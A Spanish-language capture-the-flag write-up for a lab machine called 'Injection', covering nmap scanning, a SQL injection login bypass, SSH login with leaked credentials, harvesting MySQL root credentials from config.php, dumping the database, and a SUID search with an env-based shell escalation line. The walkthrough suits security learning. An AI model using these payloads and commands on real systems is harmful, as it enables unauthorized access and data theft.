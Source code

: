# Máquina: Injection

- **Dificultad:** Muy fácil  
- **Tiempo estimado:** 1 hora

---

## 🔍 Escaneo inicial

Ejecutamos un escaneo básico con `nmap`:

```bash
nmap 172.17.0.3
```

Obtenemos que los puertos abiertos son:

- **22/TCP** → SSH  
- **80/TCP** → HTTP

Hacemos un escaneo más detallado sobre estos puertos:

```bash
nmap 172.17.0.3 -sV -p 22,80
```

**Resultado:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
```

---

## 🌐 Análisis Web

Visitamos la dirección `http://172.17.0.3` en el navegador y encontramos una **página de login**.

Dado que la máquina se llama *Injection*, probamos una inyección SQL simple:

- Usuario: `'admin' or 1=1;`
- Contraseña: (cualquier valor)

**Resultado:** Accedemos exitosamente y vemos el siguiente mensaje:

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Tenemos:
- **Usuario:** Dylan
- **Contraseña:** KJSDFG789FGSDF78

---

## 🔐 Acceso por SSH

Probamos a conectarnos con esas credenciales:

```bash
ssh dylan@172.17.0.3
```

**Acceso exitoso.**

---

## 🛠️ Enumeración interna

Intentamos enumerar con `sudo -l`, pero no está disponible.

Explorando el sistema, encontramos un archivo interesante en:

```
/var/www/html/config.php
```

Contenido:

```php
return [
    'db' => [
        'host' => 'localhost',
        'user' => 'root',
        'passwd' => 'paso',
        'dbname' => 'register',
        'options' => [
            PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
        ]
    ]
];
```

---

## 🧬 Acceso a MySQL

Usamos las credenciales para acceder a la base de datos:

```bash
mysql -u root -ppaso
```

Una vez dentro:

```sql
show databases;
use register;
select * from users;
```

**Resultado:**

```
+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+
```

Ya conocíamos estos datos, pero ahora sabemos que tenemos control total sobre la base de datos.

Probamos a insertar y eliminar usuarios:

```sql
INSERT INTO users VALUES ('prueba','123456');
DELETE FROM users WHERE username='prueba';
```

También podemos exportar la base de datos:

```bash
mysqldump --databases register -u root -ppaso > datos.sql
```

---

## 🧨 Escalada de privilegios

Buscamos archivos con el bit SUID activado:

```bash
find / -perm -4000 -user root 2>/dev/null
```

Una opción útil es:

```bash
/usr/bin/env /bin/bash -p
```

---

## ✅ Estado actual

- ✅ Acceso SSH como **dylan**
- ✅ Acceso completo a la base de datos MySQL
- ⛔ No se ha logrado escalar privilegios a root (por ahora)










